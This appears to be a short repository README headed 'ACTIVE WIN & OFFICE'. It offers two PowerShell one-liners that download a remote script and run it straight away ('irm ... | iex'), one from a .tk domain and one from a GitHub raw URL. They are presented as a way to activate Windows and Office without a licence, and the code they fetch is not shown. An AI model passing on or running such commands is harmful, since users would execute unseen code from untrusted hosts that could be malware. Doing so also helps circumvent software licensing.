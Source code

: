 ### ACTIVE WIN & OFFICE

```shell
irm https://hoatdong.tk/get | iex
```

```shell
irm https://raw.githubusercontent.com/ANTU-ALT-F4/microsoft-activation/main/get | iex
```
